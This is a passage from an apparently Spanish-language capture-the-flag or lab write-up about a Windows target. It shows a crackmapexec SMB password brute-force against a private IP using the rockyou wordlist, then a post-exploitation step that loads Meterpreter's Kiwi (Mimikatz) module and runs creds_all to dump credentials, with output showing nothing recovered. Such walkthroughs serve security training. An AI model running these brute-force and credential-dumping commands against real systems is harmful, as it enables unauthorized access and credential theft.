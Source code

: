 Lo malo, es que nos mostrara todos los intentos fallidos, por lo que es bueno usar un filtro con **grep** o con otra herramienta:
```bash
crackmapexec smb 192.168.1.10 -u 'Admin' -p /usr/share/wordlists/rockyou.txt | grep "[+]"
```

Podemos dejarlo un buen rato trabajando, pero no nos va a encontrar ninguna contraseña para ningún usuario.

Nunca está de más probar lo aprendido.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Hashes">Obteniendo Hashes NTLM con Módulo Kiwi de Meterpreter</h2>

Una vez dentro, podemos intentar obtener las credenciales y/o hashes de los usuarios de la máquina.

Esto lo hacemos cargando el **módulo Kiwi** que carga **Mimikatz** a la sesión de **meterpreter**.

**OJO**: para que funcione este módulo, necesitamos ser el **usuario Administrador**.

Usémoslo:
* Carga el **módulo Kiwi**:

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

* Veamos si podemos obtener alguna credencial con el comando `creds_all`:

```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
wdigest credentials
===================

Username     Domain     Password
--------     ------     --------
(null)       (null)     (null)
MICROCHOFT$  WORKGROUP  (null)

kerberos credentials
====================

Username     Domain     Password
--------     ------     --------
(null)       (null)     (null)
microchoft$  WORKGROUP  (null)
```
No obtuvimos nada.
